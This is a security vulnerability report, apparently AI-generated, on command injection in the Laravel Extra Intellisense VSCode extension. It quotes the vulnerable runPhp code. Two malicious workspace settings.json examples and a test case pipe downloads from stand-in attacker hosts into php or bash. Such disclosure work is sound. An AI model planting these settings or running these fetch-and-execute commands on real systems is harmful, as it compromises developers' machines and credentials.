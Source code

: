 # Vulnerability Report

## Vulnerability Name: Arbitrary PHP Command Injection through Configurable PHP Command Execution.

### Description:
- The extension executes PHP commands based on the user's defined `LaravelExtraIntellisense.phpCommand` configuration.
- A developer may carelessly or improperly set this configuration in their VSCode `settings.json` or workspace settings.
- If an attacker manipulates or convinces a developer to introduce a malicious setting (e.g., via crafted `settings.json`, shared repositories, or VSCode settings synchronization), arbitrary malicious PHP code will be executed.
- Specifically, a malicious workspace `.vscode/settings.json` could be crafted by the attacker:
  ```json
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; exec('curl http://maliciousserver.com/shell.php | php');\""
  ```
- Upon the extension triggering Laravel-related PHP execution (e.g., autocomplete processing), the malicious code is invoked, leading to code execution and subsequent compromise.

### Impact:
- Enables arbitrary command and remote code execution on the developer's environment or Docker container associated with Laravel.
- Could lead directly to data compromise, theft of credentials, environment compromise, and acts as a gateway to deeper network exploitation or lateral movement.

### Vulnerability Rank:
Critical

### Currently Implemented Mitigations:
- README "Security Note" explicitly warns users of automatic Laravel application execution and advises temporarily disabling the extension when handling sensitive logic.

### Missing Mitigations:
- No command sanitization or validation process is implemented for the `LaravelExtraIntellisense.phpCommand`.
- No secure handling or limitations on allowed PHP execution contexts exist.
- No preventive measures against injection or malicious settings introduced via workspace configurations exist, allowing arbitrary system execution.

### Preconditions:
- Attacker must gain influence over developers' VSCode configuration (`.vscode/settings.json`, global or workspace settings).
- Developer actively uses the VSCode extension with auto-triggered PHP scenarios.

### Source Code Analysis:
- Code File: `..\vscode-laravel-extra-intellisense\src\helpers.ts`
- Vulnerable Method:
  ```typescript
  static async runPhp(code: string, description: string|null = null) : Promise<string> {
      code = code.replace(/\"/g, "\\\"");
      if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
          code = code.replace(/\$/g, "\\$");
          code = code.replace(/\\\\'/g, '\\\\\\\\\'');
          code = code.replace(/\\\\"/g, '\\\\\\\\\"');
      }
      let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
      let command = commandTemplate.replace("{code}", code);
      let out = new Promise<string>(function (resolve, error) {
          if (description != null) {
              Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
          }

          cp.exec(command,
              { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
              function (err, stdout, stderr) {
                  if (err == null) {
                      if (description != null) {
                          Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                      }
                      resolve(stdout);
                  } else {
                      const errorOutput = stderr.length > 0 ? stderr : stdout;
                      Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                      Helpers.showErrorPopup();
                      error(errorOutput);
                  }
              }
          );
      });
      return out;
  }
  ```
- Walkthrough for triggering this vulnerability:
  1. User-supplied and unsanitized `phpCommand` is fetched directly.
  2. Dynamic replacement `{code}` happens without validation.
  3. Final command infinitely customizable and executed unchecked via `cp.exec`.

### Security Test Case:
1. Craft a malicious repository containing `.vscode/settings.json`:
   ```json
   {
       "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; system('curl https://malicious.example.com/backdoor | bash');\""
   }
   ```
2. Victim developer clones the repository or opens VSCode in that directory.
3. Laravel Extra Intellisense runs PHP code automatically when Laravel autocomplete activates.
4. The malicious command executes immediately and silently downloads and executes attacker implants from the external server (`https://malicious.example.com/backdoor`).
5. Confirm successful exploitation via attacker-controlled listener observing network connections generated from developer's system.

**Note:**
The second vulnerability (Sensitive Data Exposure through Background PHP Execution) from the provided input is ranked "Medium" severity, and consequently, per your provided selection criteria ("exclude vulnerabilities that are not high or critical severity"), it does not meet criteria for inclusion. It will thus not be included here.

---

## Final confirmed list after applying instruction criteria:

| # | Vulnerability Name                                              | Rank       |
|---|-----------------------------------------------------------------|------------|
| 1 | Arbitrary PHP Command Injection through Configurable PHP Command Execution | Critical   |
